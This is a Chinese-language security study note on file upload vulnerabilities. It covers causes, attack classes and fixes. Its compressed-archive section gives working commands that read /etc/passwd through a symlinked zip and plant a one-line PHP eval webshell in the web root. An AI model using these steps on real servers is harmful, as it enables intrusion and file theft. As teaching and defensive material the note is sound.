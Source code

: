 # 漏洞原理

程序员未对上传的文件进行严格的验证和过滤，而导致的用户可以越过其本身权限向服务器上上传可执行的动态脚本文件。这里上传的文件可以是木马，病毒，恶意脚本或者WebShell等。这种攻击方式是最为直接和有效的，“文件上传”本身没有问题，有问题的是文件上传后，服务器怎么处理、解释文件。如果服务器的处理逻辑做的不够安全，则会导致严重的后果。



# 漏洞危害

- Webshell类：脚本文件

- XSS类：svg，html，pdf文件，文件名注入xss代码

  > 如果pdf支持预览，可以尝试注入iframe标签进行SSRF攻击

- XXE类：docx，xlsx，xls，svg，xml

- RCE类

  ```php
  phar反序列化
  # 图片处理
  Imagetragick组件漏洞
  ImageMagick组件漏洞
  ```

- SSTI类：tpl

- 目录穿越：文件路径可控  后果：文件覆盖，ssh公钥，计划任务，脚本文件上传到可执行web目录下....

- ffmpeg 任意文件读取漏洞 / SSRF 漏洞

  > https://www.freebuf.com/articles/web/258320.html
  >
  > https://github.com/neex/ffmpeg-avi-m3u-xbin

- 压缩包

  - Linux软链接

    ```shell
    # 任意文件读取
    ln -s /etc/passwd test
    zip -y passwd.zip test  # -y 保证解压出来的还是软链接
    
    
    # 创建一个软链接指向网站目录
    ln -s /var/www/html test
    zip -y 1.zip test
    
    # 创建一个与软链接同名的目录，并在该目录下创建木马文件
    mkdir a && cd a 
    mkdir test
    echo '<?php @eval($_GET[1]); ?>' > test/shell.php
    chmod 777 test/shell.php
    zip -r 2.zip test
    
    然后先上传1.zip，解压得到软链接test，再上传2.zip，解压得到test目录和shell.php，因为test指向/var/www/html,所以shell.php实际上是被解压到网站目录下
    ```

  - Zip Slip目录穿越漏洞

    所有已发现受`Zip Slip`影响的项目:https://github.com/snyk/zip-slip-vulnerability

    **注**：如果用的是命令`unzip`来解压，这种方法就没用了，因为`unzip` 默认跳过文件名中的`../`

  




# 漏洞修复

关键

- 后缀名白名单机制
- 上传的文件统一放到一个地方，遵循以下原则`目录可写但不可解析，可解析但不可写入`，或者上传到专门用来保存文件的地方，如存储OSS

可用

- 文件内容校验和过滤
- 避免条件竞争，先判断是否合法，而不是先将文件写入再判断是否合法


- 上传文件重命名

- 隐藏上传文件路径